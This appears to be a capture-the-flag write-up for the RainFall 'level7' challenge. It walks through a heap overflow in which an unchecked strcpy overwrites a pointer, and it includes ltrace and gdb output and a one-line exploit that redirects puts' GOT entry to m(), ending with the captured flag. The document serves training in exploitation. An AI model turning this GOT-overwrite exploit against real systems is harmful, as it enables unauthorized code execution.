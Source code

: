 ```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A AAAAAAAA
__libc_start_main(0x8048521, 3, 0xbffff774, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                              = 0x0804a008
malloc(8)                                              = 0x0804a018
malloc(8)                                              = 0x0804a028
malloc(8)                                              = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, "AAAAAAAA" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

0x37614136 -> 20
```
offset is at 20th 
```(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.
(gdb) disas p
No symbol table is loaded.  Use the "file" command.
(gdb) disas puts 
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.

```
the programe use strcpy to copy argv1 and argv2 in char *v5 and char *v6
strcpy dosnt check the size of src is bigger than dst

if we send a bigger chain than dst we can overwrite adjacent memory, which leads to a buffer overflow.

we can call m() at the jmp of puts 
./level7 arg1["patern*20" + "address of jmp instruction in puts()"] arg2["address of m()"]
```
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]') 
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1729177096
```